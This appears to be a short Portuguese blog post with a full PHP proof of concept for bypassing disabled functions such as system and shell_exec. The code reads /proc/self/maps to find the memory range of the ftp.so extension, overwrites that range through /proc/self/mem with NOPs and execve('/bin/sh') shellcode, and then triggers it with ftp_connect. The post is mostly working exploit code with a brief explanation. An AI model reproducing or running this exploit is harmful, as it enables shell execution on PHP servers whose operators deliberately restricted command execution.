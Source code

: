 ```yaml
---
layout: post
comments: true
title: "PHP bypass injetando shellcode"
---
```


Vou escrever sobre um jeito de injetar shellcode no php, e executar comandos
no sistema, burlando possiveis funções desabilitadas como system e shell_exec,
por exemplo, infelizmente essa tecnica não permite burlar todo o safe_mode
do php, porque tem a limitação do open_basedir, essa é unica limitação
propriamente dita, e se as funções para leitura de arquivo, e a função seek
também estiverem desabilitadas então não funciona.

-- show the code --

A tecnica funciona da seguinte maneira, o php vai carregar varias extensões 
na memoria, e ai vamos pegar o range de memoria de uma extensão qualquer,
e vamos sobrescrever com nops e com o shellcode, e no codigo php iremos
chamar uma função que corresponde a extensão sobrescrita, quando ela chamar a
lib que foi sobrescrita, BOOM, vai executar o shellcode.

## poc

{% highlight php %}
<?php

	/* getting address range of extesion */
	function get_extension_range($name){
		$maps = fopen("/proc/self/maps", "r");
		while(!feof($maps)){
			$line = fgets($maps);
			if( preg_match("/(\w+)-(\w+)\s*r-xp.*modules\/${name}.*/", $line, $matches) ){
				fclose($maps);
				return array(hexdec($matches[1]), hexdec($matches[2]));
			}
		}
		return array();
	}

	function generate_shellcode($range, $shellcode){
		$sc = str_repeat("\x90", $range[1]-$range[0]-strlen($shellcode));
		$sc .= $shellcode;
		return $sc;
	}

	function write_memory($position, $string){
		$mem = fopen("/proc/self/mem","w+");
		fseek($mem, $position);
		fwrite($mem, $string);
	}

	$range = get_extension_range("ftp.so");

	if(empty($range)){
		die("failed to find extension...");
	}

	/* execve("/bin/sh", ["/bin/sh"], NULL) for linux x86_64 */
	$shellcode = "\x48\x31\xff\x48\xf7\xe7\xb0\x3b\x48\xbf\x66".
			 "\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08".
			 "\x57\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05";

	$shellcode_with_nops = generate_shellcode($range, $shellcode);
	write_memory($range[0], $shellcode_with_nops);


	/* call extension to exec shellcode */
	ftp_connect("matrix");



?>
{% endhighlight %}

